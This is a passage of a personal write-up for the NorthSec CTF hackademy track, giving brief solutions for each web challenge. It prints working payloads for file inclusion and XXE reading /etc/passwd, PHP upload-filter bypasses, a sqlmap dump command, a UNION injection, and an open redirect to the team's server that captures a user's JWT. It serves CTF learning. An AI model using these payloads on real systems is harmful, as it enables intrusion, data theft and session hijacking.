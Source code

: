 ## hackademy-writeup

Every year, I participate in the NorthSec CTF, and every year, when I come face to face with the hackademy track, my mind just goes blank.
This writeup is intended for personal use in the same track next year, but hey, I made the repo public if it can help anyone!

### Automatization 101
Check source code

### Automatization 102
Look at the robots.txt file

### Inclusion 101
Change the ```?page=welcome.php``` to ```/etc/passwd```

### Inclusion 102
This is an XXE, check the source code, then catch the request in burp, modify the body in the repeater for something like this:<br>
```<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY ext SYSTEM "file:///etc/passwd" >]><function><getConversation>&ext;</getConversation></function>```

(thanks lolkatz)

### Inclusion 103
PHP convert to Base64... add ```php://filter/convert.base64-encode/resource=index.php``` after the ```?page=```<br>
Decode the string

### Upload 101
Create a basic PHP script like ```<?php echo 'Hello World'; ?>``` and name it script.jpg.php (security only checks the first .xxx)

### Upload 102
Upload the script created in Upload 101 and catch the request in Burp Repeater and change the ```Content-type``` to ```image/jpeg```

### Upload 103
This step checks the file signature, force the PNG file signature ```89 50 4E 47 0D 0A 1A 0A``` in the first bytes of the script created earlier

### Upload 104
Same as upload 101 but change the name of the script to script.png.php3

### SQL 101
Kinda hard for a 101 track, but use sqlmap with this command:```sqlmap u "URL HERE" --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ```

### SQL 102
Directly in the username field, enter the injection: ```' union SELECT '','',''--```

### Open Redirect 101
My team owns a small server on the CTF network, so we redirect the user there ```URL.ctf/?sub_url=http://shell.ctf```<br>
Look at the logs on the server, we can see his JWT token.<br>
Go to ```URL.ctf/?identity=(insert JWT)``` (reminder; the token is only valid for 20mins)

### Serialize 101


